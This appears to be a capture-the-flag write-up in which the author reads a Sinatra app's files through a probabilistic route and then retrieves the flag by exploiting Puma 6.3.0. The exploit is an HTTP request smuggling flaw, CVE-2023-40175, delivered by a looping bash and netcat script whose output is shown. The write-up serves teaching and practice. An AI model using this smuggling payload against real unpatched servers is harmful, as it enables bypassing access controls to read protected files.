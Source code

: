 ```yaml
---
layout: post
category: challenge
title: '[Weekly Challenge] Durgahayu'
---
```


```
Points: 17
Author: dwisiswant0
```

## Description

Aku merdeka sejak lahir, bahkan sejak dalam rahim\[1\].

## Hints

\[1\]: Proxy.

## Steps to Resolve

In this challenge, we were handed a file called `app.rb` containing several routes. The server is powered by Puma, with Sinatra as the framework of choice.

```ruby
require 'puma'
require 'sinatra'
require_relative 'consts'

before "/#{FLAG_FILE}" do
  halt 403
end

not_found do
  status 404
  body 'gada bro'
end

get '/' do
  'Hello, world!'
end

get '/ping' do
  'pong'
end

set(:probability) { |value| condition { rand <= value } }

post '/read/:file', :probability => 0.25 do
  filename = params[:file]
  filepath = File.join(settings.cwd, filename)

  unless filepath.start_with?(settings.cwd)
    halt 403, 'yang bener aja'
  end

  if File.exist?(filepath) && File.file?(filepath)
    content_type 'text/markdown'
    "baik tuan, nih pesanannya 👇\n" +
    "```\n" +
    "#{File.read(filepath)}\n" +
    "```"
  else
    halt 404
  end
end

post '/read/:file' do
  status 418
  headers \
    "Refresh" => "Refresh: 1; /"
  body 'kok nyasar ke sini, ngab?'
end
```

The routes are fairly simple, including a root path, a `/ping` endpoint, a custom 404 handler, a handler that blocks `/#{FLAG_FILE}`, and a dynamic route `/read/:file`. However, to access the value of `FLAG_FILE`, we need to read the file that was included with `require_relative 'consts'`. 

The dynamic `/read/:file` route lets us do this, but with a catch: there's a 25% chance of success, as indicated by the probability condition. This means that for every request we send, only 1 in 4 attempts will hit the right handler, while the rest will fall through to a default handler that returns an HTTP 418 status.

#### Step 1: Extracting `FLAG_FILE`

Our first goal is to extract the value of `FLAG_FILE` from `consts.rb`. By using a simple loop to repeatedly send POST requests until we succeed, we can eventually access the file's contents:

```bash
$ while :; do curl -X POST http://durgahayu-chall.skill-issue.org/read/consts.rb | grep -o "FLAG_FILE.*" && break; done
FLAG_FILE = 'flag.txt'
```

Success! Now we know that the flag file we need is `flag.txt`.

#### Step 2: Reading `Gemfile` to Identify the Server & Framework

With the name of the flag file in hand, trying to read it via the `/read/:file` route will always result in a 401 status, so we need to try something else. Let's inspect the `Gemfile` to figure out the specific versions of Puma and Sinatra in use:

````bash
$ while :; do curl -X POST http://durgahayu-chall.skill-issue.org/read/Gemfile | grep -v "kok nyasar" && break; done
baik tuan, nih pesanannya 👇
```
source "https://rubygems.org"

gem "puma", "6.3.0"
gem "sinatra", "~> 4.0"
```
````

Looks like Puma version 6.3.0 is in play here, and that's important because this particular version has a known vulnerability, CVE-2023-40175.

#### Step 3: Understanding the Vulnerability (CVE-2023-40175)

CVE-2023-40175 is a vulnerability in Puma versions before 6.3.1 that allows for **HTTP request smuggling**. Specifically, the server doesn't handle chunked transfer encoding and zero-length Content-Length headers correctly (TE.CL), which opens up the possibility for a request smuggling attack.

#### Step 4: Crafting the Exploit

With this information, let’s write an exploit to take advantage of this vulnerability:

```bash
#!/bin/bash

TARGET_HOST="durgahayu-chall.skill-issue.org"
TARGET_PORT="80"

payload="GET / HTTP/1.1
Host: $TARGET_HOST:$TARGET_PORT
Transfer-Encoding: chunked

0
X:POST /read/flag.txt HTTP/1.1
"

payload=$(sed 's/$/\r/g' <<< "${payload}")

while [[ true ]]; do
    try=$(nc -w 1 $TARGET_HOST $TARGET_PORT <<< "${payload}")

    if [[ "${try}" =~ "baik tuan" ]]; then
        echo -e "${try}"
        break
    fi
done
```

This script keeps sending an HTTP request smuggling payload using `netcat`. The payload is designed to send in a POST request to `/read/flag.txt`. Once we get a response that contains **"baik tuan"**, we know we've successfully read the file, and the loop breaks.

#### Step 5: Retrieving the Flag

Now, let's run the script and see the result:

````bash
$ bash CVE-2023-40175.sh
HTTP/1.1 200 OK
content-type: text/plain;charset=utf-8
x-content-type-options: nosniff
Content-Length: 13

Hello, world!HTTP/1.1 200 OK
content-type: text/markdown;charset=utf-8
x-content-type-options: nosniff
Content-Length: 68

baik tuan, nih pesanannya 👇
```
Dirg@hayuRepvblikInd0nesia-79
```
````

And there it is! We've successfully exploited the vulnerability and retrieved the flag.

## References

* [GHSA-68xg-gqqm-vgj8](https://github.com/puma/puma/security/advisories/GHSA-68xg-gqqm-vgj8)